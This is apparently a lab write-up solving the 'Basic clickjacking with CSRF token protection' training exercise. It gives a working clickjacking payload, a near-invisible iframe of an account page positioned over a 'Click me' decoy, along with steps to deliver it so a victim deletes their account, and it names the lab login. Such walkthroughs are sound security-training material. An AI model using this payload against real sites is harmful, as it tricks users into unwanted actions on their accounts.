 # Basic clickjacking with CSRF token protection

## Description

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. 

## Reproduction and proof of concept

1. Log in and view `my_account`:

![Clickjacking](/_static/images/clickjacking1.png)

```text
<div id="account-content">
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit"> Update email </button>
    </form>
    <form id="delete-account-form" action="/my-account/delete" method="POST">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `300px` and `60px`, to align the "Delete account" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 300px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](/_static/images/clickjacking2.png)

6. And **Deliver exploit to victim**

## Exploitability

To solve the lab, an attacker needs to craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. An account with credentials `wiener:peter` is available. _Note: The victim will be using Chrome so test your exploit on that browser._
